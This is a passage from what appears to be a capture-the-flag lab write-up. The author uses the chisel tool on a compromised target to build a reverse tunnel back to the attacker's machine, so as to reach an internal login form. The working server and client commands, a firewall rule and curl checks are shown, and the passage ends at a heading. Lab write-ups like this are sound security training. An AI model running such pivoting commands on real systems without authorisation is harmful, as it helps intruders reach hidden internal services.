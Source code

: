 

#### Tunnel to internal

I want to take a more thorough look at this login form, but this port is not exposed to the internet. No problem: I already have the perfect tool downloaded onto the target box: **chisel**. Chisel is used for forming tunnels.

> This can get a little confusing, so I'll lay out what ports I will be using:
>
> 52846: port on the target box that I want to create a tunnel to
> 52847: port on the attacker box that chisel will use to build the tunnel
> 52848: port on the attacker box to connect to, if I want to reach 52846 on the target box.

On the attacker box, start up chisel server for a reverse tunnel:

```bash
./chisel server -p 52847 -reverse -v
```

On the target box, start up chisel in client mode, mapping 52846 to 52848 and connecting back to the attacker box on port 52847.

```bash
./chisel client 10.10.14.10:52847 R:52848:127.0.0.1:52846
```

Back on the attacker box, try connecting to target's port 52846 by connecting to local port 52848:

```bash
curl localhost:52848
```

Uhh... it's not working?

![chisel fail 1](chisel%20fail%202.png)

This is what I'm seeing from the process running chisel server:

![chisel fail 2](chisel%20fail%201.png)

Ah, I see the problem :disappointed_relieved:
Got too excited about building the tunnel, and forgot to open my firewall

```bash
sudo ufw allow from 10.10.10.171 to any port 52847 proto tcp
```

Try the tunnel again?

```bash
curl localhost:52848
```

:muscle: Success!

![chisel success 1](chisel%20success%201.png)



#### Login form at port 52846
